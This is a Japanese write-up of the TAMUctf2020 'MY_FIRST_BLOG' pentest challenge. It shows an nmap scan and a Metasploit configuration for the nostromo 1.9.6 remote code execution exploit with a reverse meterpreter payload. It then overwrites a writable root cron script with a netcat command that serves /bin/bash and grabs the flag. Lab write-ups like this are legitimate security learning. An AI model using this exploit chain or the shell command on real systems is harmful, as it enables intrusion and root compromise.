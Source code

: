 ```yaml
---
title: "【TAMUctf2020 writeup】MY_FIRST_BLOG（NETWORK_PENTEST）"
date:  "2020-03-30T15:04:05+07:00"
author:
  - "さんぽし"
draft: false
tags: ["CTF","writeup"]
categories:
  - "security"
---
```


## はじめに
KUDoS として TAMUctf2020 に参加しました。
MY_FIRST_BLOG は唯一解いた問題です。（もっと貢献しろ）
Hack the Box Like ですごい楽しかったです。

難易度的には Hack the Box の easy レベルだと思いました。（そもそも僕が解けてるので…）

## nmap

```
$ nmap -sC -sV 172.30.0.2
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-20 21:58 EDT
Nmap scan report for 172.30.0.2
Host is up (0.18s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    nostromo 1.9.6
|_http-generator: Hugo 0.54.0
|_http-server-header: nostromo 1.9.6
|_http-title: My first blog!
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.86 seconds
```

nostromo 1.9.6 には[nostromo 1.9.6 - Remote Code Execution](https://www.exploit-db.com/exploits/47837)の脆弱性があります

## metasploit使う

```
msf5 exploit(multi/http/nostromo_code_exec) > options

Module options (exploit/multi/http/nostromo_code_exec):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   172.30.0.2       yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    80               yes       The target port (TCP)
   SRVHOST  172.30.0.14      yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  172.30.0.14      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Automatic (Linux Dropper)

```

これで meterpreter の shell が取れます



## /etc/crontabをみる

毎度お世話になっている[高林さん](https://twitter.com/1eDVeCw6hdSLhzB)の以下の記事を参考に調査を進めます
https://kakyouim.hatenablog.com/entry/2020/03/14/031746#Linux

```:/etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * * root /usr/bin/healthcheck
```

`/etc/crontab`をみると `/usr/bin/healthcheck` が実行され続けていることがわかります。

## Linpeas.sh

Linpeas.sh を使用します。
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS

これにより先ほどの `/usr/bin/healthcheck` が書き換え可能であることがわかります
（長いので細かい結果は省略）

## `/usr/bin/healthcheck`を書き換えてbind shellをとる
以下を meterpreter の `upload` コマンドを使って `/usr/bin/healthcheck` と置き換えます。

```:/usr/bin/healthcheck
nc 192.168.100.113 4444 –e /bin/bash
```

4444 番 port で待ち受けさせたので、local で以下のようにすると接続できます。

```
$ nc -nv 172.30.0.2 4444
(UNKNOWN) [172.30.0.2] 4444 (?) open
ls
flag.txt
```

flagGET です

## 終わりに
最近 Hack the Box ばかりやっていて CTF に参加していなかったのですが、CTF はみんなで力を合わせて頑張る感があってすごく楽しいですよね…
今回みたいな PENTEST の問題が出てくる CTF があったらまた貢献できるように頑張りたいです
（本当は Web 問解けるようになりたいんですけど徳丸本すら読破していないのでこういう問題でしか役に立てない）

